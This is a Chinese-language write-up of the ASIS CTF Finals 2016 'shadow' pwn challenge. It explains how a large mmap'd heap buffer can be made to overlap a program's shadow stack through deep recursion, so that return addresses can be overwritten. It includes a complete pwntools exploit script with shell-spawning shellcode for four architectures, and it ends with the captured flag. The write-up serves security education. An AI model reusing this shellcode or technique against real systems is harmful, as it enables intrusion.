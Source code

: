 ```yaml
---
title: '[ASIS CTF Finals 2016] shadow 99'
author: bruce30262
tags:
  - pwn
  - heap
  - shadow stack
  - ASIS CTF Finals 2016
categories:
  - write-ups
date: 2016-09-14
layout: post
---
```

## Info
> Category: pwn  
> Point: 99  
> Solver: bruce30262 @ BambooFox  
> 感謝 Ann Tsai 提供機器並幫忙跑 exploit，以及 angelboy 對 exploit 的指點 XD

## Analyzing  
32 bit ELF, 除了 stack guard 有開以外其他保護全部沒開

程式首先會用 `mmap` 配置一塊大小為 0x30000 的記憶體區塊，並將其當成 shadow stack 來使用，存放 return address。  

main function 裡面會先要我們輸入名字 (buffer 位址在 .bss 段)，之後我們可以選擇新增一個 beer，或是讀取/編輯一個 beer description。

新增一個 beer 時，程式會先要求 beer description 的長度，之後會呼叫 malloc 配置一塊相對應大小的 buffer 給我們輸入 beer description 的內容。至於讀取/編輯一個 beer description 則是會先要我們選擇要讀取/編輯的 beer，之後會印出 beer 的 description，並詢問我們是否要編輯 beer 的 description。此時如果輸入一個 invalid 的選項 ( not y or n )，程式會直接進行遞迴呼叫，再 call 一次該 function 並做同樣的事情，直到我們輸入 y 或 n 為止。

## Exploit  
這題關鍵的地方在於  

* 我們可以控制 malloc 的長度，以及 malloc 後 buffer 的內容
* 我們可以對程式做遞迴呼叫  

glibc 的 malloc 在 size 很大的時候 (超過 0x20000)，會改用 mmap 來進行動態的記體配置。而 mmap 出來的 memory page，會接在上一次 mmap 出來的 memory page 的前面。因此，透過第一點，我們可以嘗試去新增一個長度很長的 beer description，這樣程式在呼叫 mmap 之後**會將我們 beer description 的 buffer 接在 shadow stack 的前面。**  

之後我們可以嘗試對程式進行多次的遞迴呼叫，讓 shadow stack 不斷的 "往上長" (意即 shadow stack 的 top 位址會不斷得往前移)。只要 shadow stack 長到某一程度，就會跟我們 beer description 的 buffer 重疊在一起。此時我們再透過編輯 beer description 的功能，就可以改到 shadow stack 上的 return address，讓程式跳到我們想要的位址。這題因為只有 stack guard 的關係，可以執行 shellcode。 我們可以透過將 shellcode 塞入 name buffer，然後將 return address 改成 name buffer 位址的方式來跳 shellcode。

```python exp_shadow.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "shadow.asis-ctf.ir"
PORT = 31337
ELF_PATH = "./shadow"

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
        return "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x09\x30\x49\x40\x52\x40\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68"
    elif arch == "aarch64":
        # 4 null bytes, total 35 bytes
        return "\x06\x00\x00\x14\xe0\x03\x1e\xaa\xe1\x03\x1f\xaa\xe2\x03\x1f\xaa\xa8\x1b\x80\xd2\x21\x00\x00\xd4\xfb\xff\xff\x97\x2f\x62\x69\x6e\x2f\x73\x68"
    else:
        return None

def add_one(size, desr):
    r.sendline("1")
    log.info("send desc length")
    r.sendlineafter("length?\n", str(size))
    log.info("send desc")
    r.send(desr)

if __name__ == "__main__":
    
    shellcode_addr = 0x0804a520
    shellcode = sc()

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    log.info("send name (shellcode)")
    r.sendlineafter("name?\n", shellcode)
    r.recvuntil("it?\n")

    log.info("add one beer")
    add_one(0x20000, "A"*(0x20000-4)+"BBBB")
    r.recvuntil("beer uploaded to the memory!\n")
    r.recvuntil("0\n")
    log.info("add beer done")

    log.info("choose desc")
    r.sendline("2") # choose desc
    r.sendline("0") # input index

    log.info("recieving BBBB")
    print r.recvuntil("BBBB")
    log.info("recieving rest output")
    print r.recvuntil("\n")
    print r.recvline()
    log.info("start stacking stack")

    maxx = 80000
    for i in xrange(maxx):
        check = i% 10000
        if check == 0:
            print i
        r.sendline("z")

    r.sendline('y')
    r.send(p32(shellcode_addr)*(0x20000/4))

    r.interactive()
```


不過因為主辦方網路不穩的關係，我自己跑 exploit local 端是可以 work，但是 remote 端會 timeout，因此最後是將 exploit 上傳到 trello 請隊友 Ann Tsai 幫忙跑。一開始跑的時候還是會在某個地方卡住，經過安博的指點之後修了一下 exploit，最後成功拿 shell 並得到 flag。  

flag: `ASIS{732f9beb138dbca4e44d5d184c3074dc}`
